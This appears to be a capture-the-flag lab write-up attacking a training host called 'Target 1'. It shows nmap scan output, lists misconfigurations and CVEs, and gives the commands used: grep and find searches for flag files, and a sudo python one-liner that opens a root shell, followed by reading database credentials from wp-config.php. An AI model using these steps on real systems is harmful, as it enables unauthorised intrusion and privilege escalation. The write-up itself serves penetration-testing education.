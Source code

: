 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

`nmap` scan results for each machine reveal the below services and OS details:  
  *omitted output from machines on the network that are not the "Target 1"*


```bash
$ nmap -sV -A 192.168.1.90/24

# Nmap 7.80 scan initiated Sat Mar 27 10:00:43 2021 as: nmap -sV -A -oN nmap_out.txt 192.168.1.110
Nmap scan report for 192.168.1.110
Host is up (0.00082s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42312/tcp   status
|   100024  1          49348/tcp6  status
|   100024  1          54108/udp   status
|_  100024  1          57255/udp6  status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3h39m59s, deviation: 6h21m02s, median: 0s
|_nbstat: NetBIOS name: TARGET1, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.2.14-Debian)
|   Computer name: raven
|   NetBIOS computer name: TARGET1\x00
|   Domain name: local
|   FQDN: raven.local
|_  System time: 2021-03-28T04:00:57+11:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-27T17:00:57
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.82 ms 192.168.1.110

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 27 10:00:57 2021 -- 1 IP address (1 host up) scanned in 13.79 seconds
```

This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSH v6.7p1 22/tcp
  - Apache v2.4.10 80/tcp
  - Samba v4.2.14 445/tcp, 139/tcp


The following vulnerabilities were identified on each target:
- Target 1
  - Misconfiguration of `steven` user to run `python` as `sudo`
  - Misconfiguration of `michael` user with password the same as his name
  - OpenSSH configured with weak authentication, password only. 
  - 22/tcp was not filtered, accessible publicly. 
  - CVE-2017-7494 - Samba exec code vulnerability - 10.0 severity
  - CVE-2017-3167 - Apache authentication bypass vulnerability - 7.5 severity
  - Misconfiguration of Website with sensitive data publicly available in 
			source code.


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d  
      - **Exploit Used**  
         - Sensitive data publicly available  
         - Used the web browser's console to view source code   
         - Initially this flag was found with `grep` once logged in via SSH as any user
         - `grep -ER flag /var/www/html/`  

![flag1a](../screenshots/24-flag_1a.png)
![flag1b](../screenshots/24-flag_1b.png)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c  
      - **Exploit Used**  
          - Weak SSH authentication  
          - Once connected via SSH as any user, the flag could be found with
              a search
          - `find / -type f -iname "flag?.txt" -exec cat {} \; 2>/dev/null`  

![flag2](../screenshots/24-flag_2.png)

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2  
      - **Exploit Used**  
          - Misconfiguration of `steven` user to run `python` with root permissions  
  	     	- `sudo python -c 'import os; os.system("/bin/sh")'`  
              - Once the permissions were escalated, `wp-config.php` file was readable, file includes the SQL database login information in clear text.   
              - With the login information for the database, it could be queried for flags 3 and 4  

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce  
      - **Exploit Used**  
      - *Same method as flag 3, in the same database*  

![priv_escalate](../screenshots/24-python_escalate.png)
![flag3and4](../screenshots/24-flag_3_and_4.png)
